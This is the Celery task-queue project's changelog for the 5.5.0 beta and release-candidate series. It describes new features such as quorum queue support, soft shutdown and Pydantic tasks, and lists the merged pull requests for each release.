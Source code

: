 .. _changelog:

================
 Change history
================

This document contains change notes for bugfix & new features
in the main branch & 5.5.x series, please see :ref:`whatsnew-5.5` for
an overview of what's new in Celery 5.5.

.. _version-5.5.0rc4:

5.5.0rc4
========

:release-date: 2024-12-19
:release-by: Tomer Nosrati

Celery v5.5.0 Release Candidate 4 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

See :ref:`whatsnew-5.5` or read the main highlights below.

Using Kombu 5.5.0rc2
--------------------

The minimum required Kombu version has been bumped to 5.5.0.
Kombu is current at 5.5.0rc2.

Complete Quorum Queues Support
------------------------------

A completely new ETA mechanism was developed to allow full support with RabbitMQ Quorum Queues.

After upgrading to this version, please share your feedback on the quorum queues support.

Relevant Issues:
`#9207 <https://github.com/celery/celery/discussions/9207>`_,
`#6067 <https://github.com/celery/celery/discussions/6067>`_

- New :ref:`documentation <using-quorum-queues>`.
- New :setting:`broker_native_delayed_delivery_queue_type` configuration option.

New support for Google Pub/Sub transport
----------------------------------------

After upgrading to this version, please share your feedback on the Google Pub/Sub transport support.

Relevant Issues:
`#9351 <https://github.com/celery/celery/pull/9351>`_

Python 3.13 Improved Support
----------------------------

Additional dependencies have been migrated successfully to Python 3.13, including Kombu and py-amqp.

Soft Shutdown
-------------

The soft shutdown is a new mechanism in Celery that sits between the warm shutdown and the cold shutdown.
It sets a time limited "warm shutdown" period, during which the worker will continue to process tasks that are already running.
After the soft shutdown ends, the worker will initiate a graceful cold shutdown, stopping all tasks and exiting.

The soft shutdown is disabled by default, and can be enabled by setting the new configuration option :setting:`worker_soft_shutdown_timeout`.
If a worker is not running any task when the soft shutdown initiates, it will skip the warm shutdown period and proceed directly to the cold shutdown
unless the new configuration option :setting:`worker_enable_soft_shutdown_on_idle` is set to True. This is useful for workers
that are idle, waiting on ETA tasks to be executed that still want to enable the soft shutdown anyways.

The soft shutdown can replace the cold shutdown when using a broker with a visibility timeout mechanism, like :ref:`Redis <broker-redis>`
or :ref:`SQS <broker-sqs>`, to enable a more graceful cold shutdown procedure, allowing the worker enough time to re-queue tasks that were not
completed (e.g., ``Restoring 1 unacknowledged message(s)``) by resetting the visibility timeout of the unacknowledged messages just before
the worker exits completely.

After upgrading to this version, please share your feedback on the new Soft Shutdown mechanism.

Relevant Issues:
`#9213 <https://github.com/celery/celery/pull/9213>`_,
`#9231 <https://github.com/celery/celery/pull/9231>`_,
`#9238 <https://github.com/celery/celery/pull/9238>`_

- New :ref:`documentation <worker-stopping>` for each shutdown type.
- New :setting:`worker_soft_shutdown_timeout` configuration option.
- New :setting:`worker_enable_soft_shutdown_on_idle` configuration option.

REMAP_SIGTERM
-------------

The ``REMAP_SIGTERM`` "hidden feature" has been tested, :ref:`documented <worker-REMAP_SIGTERM>` and is now officially supported.
This feature allows users to remap the SIGTERM signal to SIGQUIT, to initiate a soft or a cold shutdown using :sig:`TERM`
instead of :sig:`QUIT`.

Pydantic Support
----------------

This release introduces support for Pydantic models in Celery tasks.
For more info, see the new pydantic example and PR `#9023 <https://github.com/celery/celery/pull/9023>`_ by @mathiasertl.

After upgrading to this version, please share your feedback on the new Pydantic support.

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the v5.4.0 release of Kombu, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- Bugfix: SIGQUIT not initiating cold shutdown when `task_acks_late=False` (#9461)
- Fixed pycurl dep with Python 3.8 (#9471)
- Update elasticsearch requirement from <=8.16.0 to <=8.17.0 (#9469)
- Bump pytest-subtests from 0.13.1 to 0.14.1 (#9459)
- documentation: Added a type annotation to the periodic task example (#9473)
- Prepare for (pre) release: v5.5.0rc4 (#9474)

.. _version-5.5.0rc3:

5.5.0rc3
========

:release-date: 2024-12-03
:release-by: Tomer Nosrati

Celery v5.5.0 Release Candidate 3 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

See :ref:`whatsnew-5.5` or read the main highlights below.

Using Kombu 5.5.0rc2
--------------------

The minimum required Kombu version has been bumped to 5.5.0.
Kombu is current at 5.5.0rc2.

Complete Quorum Queues Support
------------------------------

A completely new ETA mechanism was developed to allow full support with RabbitMQ Quorum Queues.

After upgrading to this version, please share your feedback on the quorum queues support.

Relevant Issues:
`#9207 <https://github.com/celery/celery/discussions/9207>`_,
`#6067 <https://github.com/celery/celery/discussions/6067>`_

- New :ref:`documentation <using-quorum-queues>`.
- New :setting:`broker_native_delayed_delivery_queue_type` configuration option.

New support for Google Pub/Sub transport
----------------------------------------

After upgrading to this version, please share your feedback on the Google Pub/Sub transport support.

Relevant Issues:
`#9351 <https://github.com/celery/celery/pull/9351>`_

Python 3.13 Improved Support
----------------------------

Additional dependencies have been migrated successfully to Python 3.13, including Kombu and py-amqp.

Soft Shutdown
-------------

The soft shutdown is a new mechanism in Celery that sits between the warm shutdown and the cold shutdown.
It sets a time limited "warm shutdown" period, during which the worker will continue to process tasks that are already running.
After the soft shutdown ends, the worker will initiate a graceful cold shutdown, stopping all tasks and exiting.

The soft shutdown is disabled by default, and can be enabled by setting the new configuration option :setting:`worker_soft_shutdown_timeout`.
If a worker is not running any task when the soft shutdown initiates, it will skip the warm shutdown period and proceed directly to the cold shutdown
unless the new configuration option :setting:`worker_enable_soft_shutdown_on_idle` is set to True. This is useful for workers
that are idle, waiting on ETA tasks to be executed that still want to enable the soft shutdown anyways.

The soft shutdown can replace the cold shutdown when using a broker with a visibility timeout mechanism, like :ref:`Redis <broker-redis>`
or :ref:`SQS <broker-sqs>`, to enable a more graceful cold shutdown procedure, allowing the worker enough time to re-queue tasks that were not
completed (e.g., ``Restoring 1 unacknowledged message(s)``) by resetting the visibility timeout of the unacknowledged messages just before
the worker exits completely.

After upgrading to this version, please share your feedback on the new Soft Shutdown mechanism.

Relevant Issues:
`#9213 <https://github.com/celery/celery/pull/9213>`_,
`#9231 <https://github.com/celery/celery/pull/9231>`_,
`#9238 <https://github.com/celery/celery/pull/9238>`_

- New :ref:`documentation <worker-stopping>` for each shutdown type.
- New :setting:`worker_soft_shutdown_timeout` configuration option.
- New :setting:`worker_enable_soft_shutdown_on_idle` configuration option.

REMAP_SIGTERM
-------------

The ``REMAP_SIGTERM`` "hidden feature" has been tested, :ref:`documented <worker-REMAP_SIGTERM>` and is now officially supported.
This feature allows users to remap the SIGTERM signal to SIGQUIT, to initiate a soft or a cold shutdown using :sig:`TERM`
instead of :sig:`QUIT`.

Pydantic Support
----------------

This release introduces support for Pydantic models in Celery tasks.
For more info, see the new pydantic example and PR `#9023 <https://github.com/celery/celery/pull/9023>`_ by @mathiasertl.

After upgrading to this version, please share your feedback on the new Pydantic support.

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the v5.4.0 release of Kombu, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- Document usage of broker_native_delayed_delivery_queue_type (#9419)
- Adjust section in what's new document regarding quorum queues support (#9420)
- Update pytest-rerunfailures to 15.0 (#9422)
- Document group unrolling (#9421)
- fix small typo acces -> access (#9434)
- Update cryptography to 44.0.0 (#9437)
- Added pypy to Dockerfile (#9438)
- Skipped flaky tests on pypy (all pass after ~10 reruns) (#9439)
- Allowing managed credentials for azureblockblob (#9430)
- Allow passing Celery objects to the Click entry point (#9426)
- support Request termination for gevent (#9440)
- Prevent event_mask from being overwritten. (#9432)
- Update pytest to 8.3.4 (#9444)
- Prepare for (pre) release: v5.5.0rc3 (#9450)

.. _version-5.5.0rc2:

5.5.0rc2
========

:release-date: 2024-11-18
:release-by: Tomer Nosrati

Celery v5.5.0 Release Candidate 2 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

See :ref:`whatsnew-5.5` or read the main highlights below.

Using Kombu 5.5.0rc2
--------------------

The minimum required Kombu version has been bumped to 5.5.0.
Kombu is current at 5.5.0rc2.

Complete Quorum Queues Support
------------------------------

A completely new ETA mechanism was developed to allow full support with RabbitMQ Quorum Queues.

After upgrading to this version, please share your feedback on the quorum queues support.

Relevant Issues:
`#9207 <https://github.com/celery/celery/discussions/9207>`_,
`#6067 <https://github.com/celery/celery/discussions/6067>`_

- New :ref:`documentation <using-quorum-queues>`.
- New :setting:`broker_native_delayed_delivery_queue_type` configuration option.

New support for Google Pub/Sub transport
----------------------------------------

After upgrading to this version, please share your feedback on the Google Pub/Sub transport support.

Relevant Issues:
`#9351 <https://github.com/celery/celery/pull/9351>`_

Python 3.13 Improved Support
----------------------------

Additional dependencies have been migrated successfully to Python 3.13, including Kombu and py-amqp.

Previous Pre-release Highlights
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Python 3.13 Initial Support
---------------------------

This release introduces the initial support for Python 3.13 with Celery.

After upgrading to this version, please share your feedback on the Python 3.13 support.

Soft Shutdown
-------------

The soft shutdown is a new mechanism in Celery that sits between the warm shutdown and the cold shutdown.
It sets a time limited "warm shutdown" period, during which the worker will continue to process tasks that are already running.
After the soft shutdown ends, the worker will initiate a graceful cold shutdown, stopping all tasks and exiting.

The soft shutdown is disabled by default, and can be enabled by setting the new configuration option :setting:`worker_soft_shutdown_timeout`.
If a worker is not running any task when the soft shutdown initiates, it will skip the warm shutdown period and proceed directly to the cold shutdown
unless the new configuration option :setting:`worker_enable_soft_shutdown_on_idle` is set to True. This is useful for workers
that are idle, waiting on ETA tasks to be executed that still want to enable the soft shutdown anyways.

The soft shutdown can replace the cold shutdown when using a broker with a visibility timeout mechanism, like :ref:`Redis <broker-redis>`
or :ref:`SQS <broker-sqs>`, to enable a more graceful cold shutdown procedure, allowing the worker enough time to re-queue tasks that were not
completed (e.g., ``Restoring 1 unacknowledged message(s)``) by resetting the visibility timeout of the unacknowledged messages just before
the worker exits completely.

After upgrading to this version, please share your feedback on the new Soft Shutdown mechanism.

Relevant Issues:
`#9213 <https://github.com/celery/celery/pull/9213>`_,
`#9231 <https://github.com/celery/celery/pull/9231>`_,
`#9238 <https://github.com/celery/celery/pull/9238>`_

- New :ref:`documentation <worker-stopping>` for each shutdown type.
- New :setting:`worker_soft_shutdown_timeout` configuration option.
- New :setting:`worker_enable_soft_shutdown_on_idle` configuration option.

REMAP_SIGTERM
-------------

The ``REMAP_SIGTERM`` "hidden feature" has been tested, :ref:`documented <worker-REMAP_SIGTERM>` and is now officially supported.
This feature allows users to remap the SIGTERM signal to SIGQUIT, to initiate a soft or a cold shutdown using :sig:`TERM`
instead of :sig:`QUIT`.

Pydantic Support
----------------

This release introduces support for Pydantic models in Celery tasks.
For more info, see the new pydantic example and PR `#9023 <https://github.com/celery/celery/pull/9023>`_ by @mathiasertl.

After upgrading to this version, please share your feedback on the new Pydantic support.

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the v5.4.0 release of Kombu, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- Fix: Treat dbm.error as a corrupted schedule file (#9331)
- Pin pre-commit to latest version 4.0.1 (#9343)
- Added Python 3.13 to Dockerfiles (#9350)
- Skip test_pool_restart_import_modules on PyPy due to test issue (#9352)
- Update elastic-transport requirement from <=8.15.0 to <=8.15.1 (#9347)
- added dragonfly logo (#9353)
- Update README.rst (#9354)
- Update README.rst (#9355)
- Update mypy to 1.12.0 (#9356)
- Bump Kombu to v5.5.0rc1 (#9357)
- Fix `celery --loader` option parsing (#9361)
- Add support for Google Pub/Sub transport (#9351)
- Add native incr support for GCSBackend (#9302)
- fix(perform_pending_operations): prevent task duplication on shutdown… (#9348)
- Update grpcio to 1.67.0 (#9365)
- Update google-cloud-firestore to 2.19.0 (#9364)
- Annotate celery/utils/timer2.py (#9362)
- Update cryptography to 43.0.3 (#9366)
- Update mypy to 1.12.1 (#9368)
- Bump mypy from 1.12.1 to 1.13.0 (#9373)
- Pass timeout and confirm_timeout to producer.publish() (#9374)
- Bump Kombu to v5.5.0rc2 (#9382)
- Bump pytest-cov from 5.0.0 to 6.0.0 (#9388)
- default strict to False for pydantic tasks (#9393)
- Only log that global QoS is disabled if using amqp (#9395)
- chore: update sponsorship logo (#9398)
- Allow custom hostname for celery_worker in celery.contrib.pytest / celery.contrib.testing.worker (#9405)
- Removed docker-docs from CI (optional job, malfunctioning) (#9406)
- Added a utility to format changelogs from the auto-generated GitHub release notes (#9408)
- Bump codecov/codecov-action from 4 to 5 (#9412)
- Update elasticsearch requirement from <=8.15.1 to <=8.16.0 (#9410)
- Native Delayed Delivery in RabbitMQ (#9207)
- Prepare for (pre) release: v5.5.0rc2 (#9416)

.. _version-5.5.0rc1:

5.5.0rc1
========

:release-date: 2024-10-08
:release-by: Tomer Nosrati

Celery v5.5.0 Release Candidate 1 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

See :ref:`whatsnew-5.5` or read the main highlights below.

Python 3.13 Initial Support
---------------------------

This release introduces the initial support for Python 3.13 with Celery.

After upgrading to this version, please share your feedback on the Python 3.13 support.

Soft Shutdown
-------------

The soft shutdown is a new mechanism in Celery that sits between the warm shutdown and the cold shutdown.
It sets a time limited "warm shutdown" period, during which the worker will continue to process tasks that are already running.
After the soft shutdown ends, the worker will initiate a graceful cold shutdown, stopping all tasks and exiting.

The soft shutdown is disabled by default, and can be enabled by setting the new configuration option :setting:`worker_soft_shutdown_timeout`.
If a worker is not running any task when the soft shutdown initiates, it will skip the warm shutdown period and proceed directly to the cold shutdown
unless the new configuration option :setting:`worker_enable_soft_shutdown_on_idle` is set to True. This is useful for workers
that are idle, waiting on ETA tasks to be executed that still want to enable the soft shutdown anyways.

The soft shutdown can replace the cold shutdown when using a broker with a visibility timeout mechanism, like :ref:`Redis <broker-redis>`
or :ref:`SQS <broker-sqs>`, to enable a more graceful cold shutdown procedure, allowing the worker enough time to re-queue tasks that were not
completed (e.g., ``Restoring 1 unacknowledged message(s)``) by resetting the visibility timeout of the unacknowledged messages just before
the worker exits completely.

After upgrading to this version, please share your feedback on the new Soft Shutdown mechanism.

Relevant Issues:
`#9213 <https://github.com/celery/celery/pull/9213>`_,
`#9231 <https://github.com/celery/celery/pull/9231>`_,
`#9238 <https://github.com/celery/celery/pull/9238>`_

- New :ref:`documentation <worker-stopping>` for each shutdown type.
- New :setting:`worker_soft_shutdown_timeout` configuration option.
- New :setting:`worker_enable_soft_shutdown_on_idle` configuration option.

REMAP_SIGTERM
-------------

The ``REMAP_SIGTERM`` "hidden feature" has been tested, :ref:`documented <worker-REMAP_SIGTERM>` and is now officially supported.
This feature allows users to remap the SIGTERM signal to SIGQUIT, to initiate a soft or a cold shutdown using :sig:`TERM`
instead of :sig:`QUIT`.

Pydantic Support
----------------

This release introduces support for Pydantic models in Celery tasks.
For more info, see the new pydantic example and PR `#9023 <https://github.com/celery/celery/pull/9023>`_ by @mathiasertl.

After upgrading to this version, please share your feedback on the new Pydantic support.

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the v5.4.0 release of Kombu, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- Added Blacksmith.sh to the Sponsors section in the README (#9323)
- Revert "Added Blacksmith.sh to the Sponsors section in the README" (#9324)
- Added Blacksmith.sh to the Sponsors section in the README (#9325)
- Added missing " |oc-sponsor-3|” in README (#9326)
- Use Blacksmith SVG logo (#9327)
- Updated Blacksmith SVG logo (#9328)
- Revert "Updated Blacksmith SVG logo" (#9329)
- Update pymongo to 4.10.0 (#9330)
- Update pymongo to 4.10.1 (#9332)
- Update user guide to recommend delay_on_commit (#9333)
- Pin pre-commit to latest version 4.0.0 (Python 3.9+) (#9334)
- Update ephem to 4.1.6 (#9336)
- Updated Blacksmith SVG logo (#9337)
- Prepare for (pre) release: v5.5.0rc1 (#9341)

.. _version-5.5.0b4:

5.5.0b4
=======

:release-date: 2024-09-30
:release-by: Tomer Nosrati

Celery v5.5.0 Beta 4 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

Python 3.13 Initial Support
---------------------------

This release introduces the initial support for Python 3.13 with Celery.

After upgrading to this version, please share your feedback on the Python 3.13 support.

Previous Pre-release Highlights
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Soft Shutdown
-------------

The soft shutdown is a new mechanism in Celery that sits between the warm shutdown and the cold shutdown.
It sets a time limited "warm shutdown" period, during which the worker will continue to process tasks that are already running.
After the soft shutdown ends, the worker will initiate a graceful cold shutdown, stopping all tasks and exiting.

The soft shutdown is disabled by default, and can be enabled by setting the new configuration option :setting:`worker_soft_shutdown_timeout`.
If a worker is not running any task when the soft shutdown initiates, it will skip the warm shutdown period and proceed directly to the cold shutdown
unless the new configuration option :setting:`worker_enable_soft_shutdown_on_idle` is set to True. This is useful for workers
that are idle, waiting on ETA tasks to be executed that still want to enable the soft shutdown anyways.

The soft shutdown can replace the cold shutdown when using a broker with a visibility timeout mechanism, like :ref:`Redis <broker-redis>`
or :ref:`SQS <broker-sqs>`, to enable a more graceful cold shutdown procedure, allowing the worker enough time to re-queue tasks that were not
completed (e.g., ``Restoring 1 unacknowledged message(s)``) by resetting the visibility timeout of the unacknowledged messages just before
the worker exits completely.

After upgrading to this version, please share your feedback on the new Soft Shutdown mechanism.

Relevant Issues:
`#9213 <https://github.com/celery/celery/pull/9213>`_,
`#9231 <https://github.com/celery/celery/pull/9231>`_,
`#9238 <https://github.com/celery/celery/pull/9238>`_

- New :ref:`documentation <worker-stopping>` for each shutdown type.
- New :setting:`worker_soft_shutdown_timeout` configuration option.
- New :setting:`worker_enable_soft_shutdown_on_idle` configuration option.

REMAP_SIGTERM
-------------

The ``REMAP_SIGTERM`` "hidden feature" has been tested, :ref:`documented <worker-REMAP_SIGTERM>` and is now officially supported.
This feature allows users to remap the SIGTERM signal to SIGQUIT, to initiate a soft or a cold shutdown using :sig:`TERM`
instead of :sig:`QUIT`.

Pydantic Support
----------------

This release introduces support for Pydantic models in Celery tasks.
For more info, see the new pydantic example and PR `#9023 <https://github.com/celery/celery/pull/9023>`_ by @mathiasertl.

After upgrading to this version, please share your feedback on the new Pydantic support.

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the v5.4.0 release of Kombu, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- Correct the error description in exception message when validate soft_time_limit (#9246)
- Update msgpack to 1.1.0 (#9249)
- chore(utils/time.py): rename `_is_ambigious` -> `_is_ambiguous` (#9248)
- Reduced Smoke Tests to min/max supported python (3.8/3.12) (#9252)
- Update pytest to 8.3.3 (#9253)
- Update elasticsearch requirement from <=8.15.0 to <=8.15.1 (#9255)
- Update mongodb without deprecated `[srv]` extra requirement (#9258)
- blacksmith.sh: Migrate workflows to Blacksmith (#9261)
- Fixes #9119: inject dispatch_uid for retry-wrapped receivers (#9247)
- Run all smoke tests CI jobs together (#9263)
- Improve documentation on visibility timeout (#9264)
- Bump pytest-celery to 1.1.2 (#9267)
- Added missing "app.conf.visibility_timeout" in smoke tests (#9266)
- Improved stability with t/smoke/tests/test_consumer.py (#9268)
- Improved Redis container stability in the smoke tests (#9271)
- Disabled EXHAUST_MEMORY tests in Smoke-tasks (#9272)
- Marked xfail for test_reducing_prefetch_count with Redis - flaky test (#9273)
- Fixed pypy unit tests random failures in the CI (#9275)
- Fixed more pypy unit tests random failures in the CI (#9278)
- Fix Redis container from aborting randomly (#9276)
- Run Integration & Smoke CI tests together after unit tests pass (#9280)
- Added "loglevel verbose" to Redis containers in smoke tests (#9282)
- Fixed Redis error in the smoke tests: "Possible SECURITY ATTACK detected" (#9284)
- Refactored the smoke tests github workflow (#9285)
- Increased --reruns 3->4 in smoke tests (#9286)
- Improve stability of smoke tests (CI and Local) (#9287)
- Fixed Smoke tests CI "test-case" labels (specific instead of general) (#9288)
- Use assert_log_exists instead of wait_for_log in worker smoke tests (#9290)
- Optimized t/smoke/tests/test_worker.py (#9291)
- Enable smoke tests dockers check before each test starts (#9292)
- Relaxed smoke tests flaky tests mechanism (#9293)
- Updated quorum queue detection to handle multiple broker instances (#9294)
- Non-lazy table creation for database backend (#9228)
- Pin pymongo to latest version 4.9 (#9297)
- Bump pymongo from 4.9 to 4.9.1 (#9298)
- Bump Kombu to v5.4.2 (#9304)
- Use rabbitmq:3 in stamping smoke tests (#9307)
- Bump pytest-celery to 1.1.3 (#9308)
- Added Python 3.13 Support (#9309)
- Add log when global qos is disabled (#9296)
- Added official release docs (whatsnew) for v5.5 (#9312)
- Enable Codespell autofix (#9313)
- Pydantic typehints: Fix optional, allow generics (#9319)
- Prepare for (pre) release: v5.5.0b4 (#9322)

.. _version-5.5.0b3:

5.5.0b3
=======

:release-date: 2024-09-08
:release-by: Tomer Nosrati

Celery v5.5.0 Beta 3 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

Soft Shutdown
-------------

The soft shutdown is a new mechanism in Celery that sits between the warm shutdown and the cold shutdown.
It sets a time limited "warm shutdown" period, during which the worker will continue to process tasks that are already running.
After the soft shutdown ends, the worker will initiate a graceful cold shutdown, stopping all tasks and exiting.

The soft shutdown is disabled by default, and can be enabled by setting the new configuration option :setting:`worker_soft_shutdown_timeout`.
If a worker is not running any task when the soft shutdown initiates, it will skip the warm shutdown period and proceed directly to the cold shutdown
unless the new configuration option :setting:`worker_enable_soft_shutdown_on_idle` is set to True. This is useful for workers
that are idle, waiting on ETA tasks to be executed that still want to enable the soft shutdown anyways.

The soft shutdown can replace the cold shutdown when using a broker with a visibility timeout mechanism, like :ref:`Redis <broker-redis>`
or :ref:`SQS <broker-sqs>`, to enable a more graceful cold shutdown procedure, allowing the worker enough time to re-queue tasks that were not
completed (e.g., ``Restoring 1 unacknowledged message(s)``) by resetting the visibility timeout of the unacknowledged messages just before
the worker exits completely.

After upgrading to this version, please share your feedback on the new Soft Shutdown mechanism.

Relevant Issues:
`#9213 <https://github.com/celery/celery/pull/9213>`_,
`#9231 <https://github.com/celery/celery/pull/9231>`_,
`#9238 <https://github.com/celery/celery/pull/9238>`_

- New :ref:`documentation <worker-stopping>` for each shutdown type.
- New :setting:`worker_soft_shutdown_timeout` configuration option.
- New :setting:`worker_enable_soft_shutdown_on_idle` configuration option.

REMAP_SIGTERM
-------------

The ``REMAP_SIGTERM`` "hidden feature" has been tested, :ref:`documented <worker-REMAP_SIGTERM>` and is now officially supported.
This feature allows users to remap the SIGTERM signal to SIGQUIT, to initiate a soft or a cold shutdown using :sig:`TERM`
instead of :sig:`QUIT`.

